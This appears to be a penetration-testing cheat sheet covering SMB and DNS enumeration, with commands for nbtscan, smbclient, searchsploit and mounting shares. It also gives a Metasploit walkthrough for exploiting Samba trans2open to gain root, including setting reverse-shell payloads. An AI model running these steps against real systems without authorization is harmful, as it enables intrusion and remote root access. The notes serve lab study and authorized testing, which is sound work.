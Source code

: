 ```dirsearch -u <url>```
    set rhost <ip>
    exploit
    --> gives you the version

    searchsploit samba 2.2
    see exploits compare them to exploit-db

    nbtscan <ip> - gives you basic info like NetBIOS Name

    smbclient -L <ip>

SAMBA is a good source for exploits

*Mount SMB share*

https://unix.stackexchange.com/questions/387468/mounting-a-windows-shared-drive-to-kali-linux 

to understand what shares are available

    smbclient -L hostname -I <ip>

to mount the folder

    mount //<ip>/<sharename> /media/<local_name> -o username=user

*Gaining Root with Metasploit*

    msfconsole
    search trans2open - use linux version
    show targets - there can be a lot of them
    show Options - to see the payload
    
If a static payload is set (to be seen by / in the path it can maybe not work).
Solution is to replace that with a generic payload.
https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/ 

Generic (non staged):

    set payload generic/shell_reverse_tcp

Staged:

    set payload generic/shell/reverse_tcp
    
exploit maybe leads to success
If it fails first try is the payload, then maybe it is the port. 

**DNS Enumeration**

*zonetransfer*

DNS Server

    host -t ns zonetransfer.me

Mail Server

    host -t mx zonetransfer.me

Host Information

    host zonetransfer.me

```